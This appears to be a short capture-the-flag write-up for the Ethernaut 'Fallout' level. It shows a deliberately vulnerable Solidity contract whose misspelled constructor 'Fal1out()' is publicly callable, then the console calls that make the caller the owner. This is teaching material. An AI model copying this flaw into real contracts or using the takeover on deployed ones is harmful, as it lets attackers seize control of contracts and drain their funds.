 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel2.svg">

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```
We must be owner of the contract for solve this challenge. So call ```Fal1out()``` which will help us to be owner.
```shell
await contract.owner()
'0x0000000000000000000000000000000000000000'

await contract.Fal1out()
{tx: '0xbc90077761d69b097caf909e42d43568bd232f557f4906efb3e6f56fe9fadb1e', receipt: {…}, logs: Array(0)}
```
Check again who owner is.

```
await contract.owner()
'0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b'
```

**_by wasny0ps_**
